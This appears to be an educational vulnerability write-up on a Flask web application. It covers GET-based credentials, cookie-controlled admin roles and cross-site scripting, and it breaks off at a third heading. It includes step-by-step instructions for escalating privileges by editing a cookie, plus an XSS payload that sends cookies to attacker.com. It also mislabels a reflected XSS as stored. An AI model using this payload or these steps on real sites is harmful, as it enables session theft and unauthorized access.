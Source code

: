The provided Flask web application contains several security vulnerabilities that can be exploited by malicious actors. Below is a detailed explanation of these vulnerabilities, how they can be exploited, and best practices developers should follow to mitigate such issues in the future.

---

### **1. Vulnerability: Insecure Authentication Mechanism**

#### **Explanation:**
- **Use of GET Method for Login:** The `/login` route accepts both `GET` and `POST` requests but primarily processes login data via `GET` parameters. This means that usernames and passwords are transmitted in the URL, making them visible in browser histories, server logs, and referer headers.
  
- **Lack of Authentication Logic:** The application does not verify the provided username and password against a database or any authentication service. It blindly accepts any username and password, sets a cookie with the username, and assigns a default role of `'user'`.

- **Role-Based Access Control via Cookies:** The `/admin` route checks the user's role based solely on the `role` cookie. This approach is insecure because cookies can be manipulated on the client side, allowing users to escalate their privileges by simply modifying the `role` cookie to `'admin'`.

#### **Exploitation:**
- **Privilege Escalation:** An attacker can manually set the `role` cookie to `'admin'` using browser developer tools or other means. Once set, accessing the `/admin` route grants administrative access without proper authorization.
  
  **Steps to Exploit:**
  1. Log in using the `/login` route with any username and password.
  2. Open the browser's developer tools and navigate to the storage section.
  3. Locate the `role` cookie and modify its value from `'user'` to `'admin'`.
  4. Access the `/admin` route to gain unauthorized access to the admin panel.

---

### **2. Vulnerability: Cross-Site Scripting (XSS)**

#### **Explanation:**
- **Unsanitized User Input:** In the `/login` route, the `username` parameter provided by the user is directly inserted into the HTML response using Python's `str.format()` method without any sanitization or escaping. This allows attackers to inject malicious scripts or HTML content.

#### **Exploitation:**
- **Stored XSS Attack:** An attacker can input a malicious script as the username, which the application will render and execute in the victim's browser when they visit the welcome page.

  **Example:**
  - **Malicious Input:** `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`
  - When a user logs in with this username, the script executes, sending the user's cookies to the attacker's server.

---

### **3. Vulnerability: Use of `render_template_string` with Potential User Inputs**
